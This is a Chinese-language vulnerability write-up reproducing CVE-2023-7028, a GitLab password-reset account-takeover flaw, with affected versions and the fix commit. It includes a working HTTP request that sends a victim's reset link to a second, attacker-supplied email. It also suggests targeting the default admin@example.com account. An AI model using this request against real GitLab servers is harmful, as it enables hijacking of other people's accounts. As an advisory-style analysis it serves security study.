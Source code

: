 
GitLab 任意用户接管漏洞分析复现（CVE-2023-7028）

- - -

# GitLab 任意用户接管漏洞分析复现（CVE-2023-7028）

## 漏洞描述

2024 年 1 月 11 日，Gitlab 官方披露 CVE-2023-7028 GitLab 任意用户密码重置漏洞，官方评级严重。攻击者可利用忘记密码功能，构造恶意请求获取密码重置链接从而重置密码。官方已发布安全更新，建议升级至最新版本，若无法升级，建议利用安全组功能设置 Gitlab 仅对可信地址开放。

### 影响范围

> 16.1 <= Gitlab < 16.1.6
> 
> 16.2 <= Gitlab < 16.2.9
> 
> 16.3 <= Gitlab < 16.3.7
> 
> 16.4 <= Gitlab < 16.4.5
> 
> 16.5 <= Gitlab < 16.5.6
> 
> 16.6 <= Gitlab < 16.6.4
> 
> 16.7 <= Gitlab < 16.7.2

**这里需要注意的是，该漏洞于 2023 年 5 月 1 日在 16.1.0 中引入。所以低于 Gitlab 主线版本低于 16.1.0 环境不受该漏洞影响。**

### 漏洞利用前置条件

1、知道任意用户的邮箱

2、管理员正确配置了邮件服务

## 代码分析

根据官方的[commit 记录](https://gitlab.com/rluna-gitlab/gitlab-ce/-/commit/24d1060c0ae7d0ba432271da98f4fa20ab6fd671)来看，很容易就能发现问题——限制了邮件发送的数量。

[![](assets/1705540495-a923dfaea0737809eab6dcefd227874c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116003924-a4085d56-b3c4-1.png)

## 漏洞复现

知道了漏洞的原理，接下来就开始漏洞复现。

首先访问`/users/password/new`进入到重置密码的页面，输入一个你知道的用户，然后使用 Burp 或者其他工具抓包。  
[![](assets/1705540495-f0a62c6f9907bcbf6ff2ee5beb705d30.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116003935-aa853d2a-b3c4-1.png)

```plain
POST /users/password HTTP/1.1
Host: 1.1.1.1
Content-Length: 169
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://1.1.1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Referer: http://1.1.1.1:8090/users/password/new
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: _gitlab_session=e8eb950940d6e5d7c3820e6c9e103d7b
DNT: 1
Sec-GPC: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Connection: close

authenticity_token=LnGtHYZiXkXxCGby0lK-Krqy79_lJlbjWsYjz7exHItcrWDAQQX4Yb1rV9J5y4V89Ik8U9UpTbro8owRoekdAA&user%5Bemail%5D%5B%5D=poc1%40163.com&user%5Bemail%5D%5B%5D=attack%40qq.com
```

第一个邮箱处填写获取到的邮箱，第二个邮箱写上你自己的邮箱，然后发包，过一会你的邮箱就会收到一封密码重置的邮件，然而这个邮件里面的重置连接是另一个用户的，效果如下：  
[![](assets/1705540495-42fa6f2021c366a84eb95bee0e4bde2e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116004034-cde3d466-b3c4-1.png)  
可以看到把重置密码的邮件同时发给了两个邮箱，然而第二个邮箱是没有经过验证的攻击者的邮箱，攻击者收到邮件后直接点击重置密码，就可以接管对应的账户了。

## 后续利用

### Gitlab 版本判断

[https://github.com/righel/gitlab-version-nse/](https://github.com/righel/gitlab-version-nse/)

### 重置管理员账号

在 gitlab 安装时，管理员的默认账户为`admin@example.com`，所以可以通过直接重置默认邮箱，大概率能直接接管 gialab 管理员的账号。
